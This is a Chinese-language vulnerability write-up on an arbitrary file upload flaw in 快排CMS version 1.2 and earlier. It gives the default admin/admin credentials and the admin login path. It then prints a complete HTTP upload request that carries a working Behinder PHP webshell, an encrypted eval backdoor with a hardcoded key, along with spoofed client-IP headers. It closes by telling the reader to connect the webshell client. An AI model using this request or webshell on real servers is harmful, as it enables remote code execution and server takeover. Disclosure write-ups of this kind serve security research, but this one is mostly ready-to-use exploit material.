 # 快排CMS 任意文件上传漏洞

## 漏洞描述

快排CMS 后台管理模块存在任意文件上传漏洞，攻击者通过漏洞可以控制服务器

## 漏洞影响

> [!NOTE]
>
> 快排 CMS <= 1.2

## 环境搭建

https://gitee.com/qingzhanwang/kpcms

## 漏洞复现

登录页面如下, 默认账号密码为 **admin/admin**

```
http://xxx.xxx.xxx.xxx/admin.php/index/login.html
```

![](image/kp-1.png)

源码中没有对上传文件的后缀检测

```
thinkphp/library/think/File.php
```

![](image/kp-2.png)

任意找一处文件上传点

![](image/kp-3.png)

上传抓包获取文件地址

![](image/kp-4.png)

```
POST /admin.php/index/upload.html?dir=image HTTP/1.1
Host: 192.168.1.108:88
Content-Length: 935
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.108:88
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYIt9WaQZiDMrwAVm
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.108:88/admin.php/config/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: admin_id=IphHb2Z%2FRG9gIXGA7HpPzQ%3D%3D; menu_show=0; menu_id=menu_22; url=%2Fadmin.php%2Fconfig%2Findex.html
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

------WebKitFormBoundaryYIt9WaQZiDMrwAVm
Content-Disposition: form-data; name="localUrl"

C:\fakepath\shell.php
------WebKitFormBoundaryYIt9WaQZiDMrwAVm
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type: application/octet-stream

<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b";
	$_SESSION['k']=$key;
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>

------WebKitFormBoundaryYIt9WaQZiDMrwAVm--

```

连接冰蝎木马即可

![](image/kp-5.png)